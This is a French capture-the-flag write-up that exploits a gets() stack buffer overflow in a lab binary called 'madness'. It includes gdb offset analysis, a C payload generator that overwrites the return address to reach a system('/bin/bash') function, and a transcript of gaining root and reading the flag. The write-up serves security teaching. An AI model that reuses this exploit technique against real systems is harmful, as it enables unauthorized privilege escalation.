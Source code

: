 ﻿# Challenge Pwn3 Cybernight write up

## Description du challenge
Si vous avez lu les chall précédant, vous avez l'habitude maintenant, un identifiant pour se connecter via SSH nous est fourni:
```bash
ssh ctf@10.242.0.1 -p 2227
passwd: ***
```
Et on retrouve les fichiers suivant:
- *madness*: ELF Executable 32bit, not stripped
- *madness.c*: Code source de *madness* (il s'avère que les admin ont oublié d'enlever le droit de lecture pour ce chall) 
- *flag.txt*: Fichier contenant le flag sans droit de lecture (obviously)

## Analyse du code source

La première reaction quand on ouvre le code source ![Alt](https://openseauserdata.com/files/08eda6a483276d0eff363de8da6ea23a.jpg =50x50)
```c
int BIGFvBgYnMlYOKia(int ANzzGdmd) {
    int X = 119;
    int k = 2273;
    int b = 5280;
    int i = 7452;
    int v = 8805;
    int W = 4789;
    return X+k-b-i-v+W+ANzzGdmd;
}


int AdMbWtzSbOkVliGR(int pHlzcMIH) {
    int g = 5035;
    int M = 9549;
    int O = 8773;
    int R = 3117;
    int f = 6268;
    int z = 3118;
    return BIGFvBgYnMlYOKia(g-M+O-R+f-z-pHlzcMIH);
}
// [...]
```
On a affaire à un code obfusqué, mais comme on a le source code (dommage), une simple recherche dans le texte comme "system" ou "getuid" nous ramène directement à la fonction qui nous donnera le flag

```bash
faco@archad $ cat madness.c | grep -C 3 system
void SpYhDmDKENhhkOlH() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}

int QSLsmaeRXqktRDtj(int xfYiFvSU) {
```
On devine donc rapidement que le chall sera de détourner l’exécution du programme vers cette fonction.

On a notre objectif, maintenant il nous faut un vecteur.
Cherchons une entrée/interaction utilisateur.
Par chance, à la fin du fichier se trouve notre fonction ``main`` et on peut voir qu'elle appelle la function ``bMTsWWvxFNorimkF``:
```c
void bMTsWWvxFNorimkF() {
    char number[11] = {0};

    printf("CHOOSE A NUMBER : ");
    gets(number);
    printf("%d", CjBOSteMrExFSNCq(atoi(number)));
}

int main() {
    bMTsWWvxFNorimkF();
    return 0;
}
```
Le vecteur est vite trouvé, on a un buffer de taille 11 qui est rempli par la fonction ``gets`` qui ne vérifie pas la taille de l'entrée utilisateur par rapport à la taille du buffer dans lequel elle écrit.

## Exploitation

Comme il a été vu précédement, notre objectif est de faire sauter l'execution du programme vers la fonction ```SpYhDmDKENhhkOlH```.
La méthode est la même que pour le chall 2:
- Récuperer l'adresse de la fonction cible
- Déterminer le padding, ici on veut que notre payload modifie l'adresse de retour de fonction (toujours **[EBP+4]** dans la stack)
- Assembler padding et payload, en l'occurence l'adresse de la fonction cible

### Récupérer l'adresse de la fonction cible

Pour récupérer l'adresse de votre fonction, j'utilise ``objdump -t`` pipé dans ``grep`` pour chercher au seins de la liste des symboles de l’exécutable
 ```bash
 faco@archad $ objdump -t ./madness | grep SpYhDmDKENhhkOlH
 0804978b g     F .text  00000047              SpYhDmDKENhhkOlH
 ```
 Et voilà on a notre adresse : *0x0804978b*
 
### Déterminer le padding

J'ouvre le programme *madness* dans gdb et je commence par désassembler la fonction ``bMTsWWvxFNorimkF`` qui utilise ``gets``.
```
(gdb) disassemble bMTsWWvxFNorimkF
   0x08049fe0 <+0>:	endbr32 
   0x08049fe4 <+4>:	push   %ebp
   0x08049fe5 <+5>:	mov    %esp,%ebp
   0x08049fe7 <+7>:	push   %ebx
   0x08049fe8 <+8>:	sub    $0x14,%esp
   0x08049feb <+11>:	call   0x8049170 <__x86.get_pc_thunk.bx>
   0x08049ff0 <+16>:	add    $0x3010,%ebx
   0x08049ff6 <+22>:	movl   $0x0,-0x13(%ebp)
   0x08049ffd <+29>:	movl   $0x0,-0xf(%ebp)
   0x0804a004 <+36>:	movw   $0x0,-0xb(%ebp)
   0x0804a00a <+42>:	movb   $0x0,-0x9(%ebp)
   0x0804a00e <+46>:	sub    $0xc,%esp
   0x0804a011 <+49>:	lea    -0x1fee(%ebx),%eax
   0x0804a017 <+55>:	push   %eax
   0x0804a018 <+56>:	call   0x80490b0 <printf@plt>
   0x0804a01d <+61>:	add    $0x10,%esp
   0x0804a020 <+64>:	sub    $0xc,%esp
   0x0804a023 <+67>:	lea    -0x13(%ebp),%eax
   0x0804a026 <+70>:	push   %eax
   0x0804a027 <+71>:	call   0x80490c0 <gets@plt>
   [...]
   ```
   On place un breakpoint sur ``*bMTsWWvxFNorimkF+71`` (*0x0804a027*). 
   Le breakpoint nous permettera d'avoir la stack juste avant l'overflow, ainsi on pourra déterminer la taille de notre padding afin d'atteindre l'offset **[EBP+4]**.

Une fois le programme lancé on hit directement le breakpoint avant l'execution de ``gets``.
J'affiche 20 WORD en hexadécimale depuis $ESP (le haut de la stack)
```
Breakpoint 1, 0x0804a027 in bMTsWWvxFNorimkF ()
(gdb) x/20wx $esp
0xffffd080:	0xffffd095	0x00000000	0x00000000	0x08049ff0
0xffffd090:	0xffffffff	0x000000f4	0x00000000	0x00000000
0xffffd0a0:	0x00000000	0xf7e1fe34	0xffffd0b8	0x0804a07c
0xffffd0b0:	0x00000000	0x00000000	0x00000000	0xf7c1f119
0xffffd0c0:	0x00000001	0xffffd174	0xffffd17c	0xffffd0e0
```
Une technique pour gagner du temps et avoir facilement le bon offset: (*cf. cyclic_gen() de pwntools*)
```bash
faco@archad $ python -c "print('A' * 11 + 'BBBBCCCCDDDDEEEEFFFF') > cycle
faco@archad $ gdb ./madness
(gdb) r < cycle
[...]
Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
```
0x45 correspond à la lettre 'E', donc sur notre chaîne de character, les 4 'E' ont bien recouvert [EBP+4] et EIP a tenté d’exécuter l'instruction à l'adresse 0x45454545 après la fin de la fonction.
Il ne reste plus qu'à remplacer 'EEEE' par notre payload.

PADDING = 11 + 4 * 3 = 23

### Écriture de l'exploit

```c
#define PADDING 23
#define CHAR 0x41
#define PAYLOAD "\x8b\x97\x04\x08"
#define PAYLOAD_LEN 4
```
```c
char* buf = (char*)malloc(PADDING+PAYLOAD_LEN);
memset(buf, CHAR, PADDING);
memcpy(buf+PADDING, PAYLOAD, PAYLOAD_LEN);
```
On écrit buf dans un fichier avec fwrite
```c
fwrite(buf, 1, PADDING+PAYLOAD_LEN, f);
```
Il ne reste plus qu'à compiler et générer notre exploit.
```bash
faco@archad $ gcc exploit.c -o genexploit; ./genexploit
Exploit written at evil
```

### Exploitation
**IMPORTANT**: pour pouvoir profiter du */bin/bash*, il également """rediriger un autre stdin""" vers le child créé par ``sytem('/bin/bash ...')``. 
Pour pouvoir envoyer des commandes au shell:
```bash
faco@archad $ (cat evil; cat) | ./madness

whoami
faco
```
Il ne reste plus qu'à tester via ssh

```bash
faco@archad $ (cat evil; evil) | ssh ctf@10.242.0.1 -p 2227 'bash -c ~/madness '
CHOOSE A NUMBER: 

whoami
root
cat ./flag.txt
{FLAG}
``` 




 

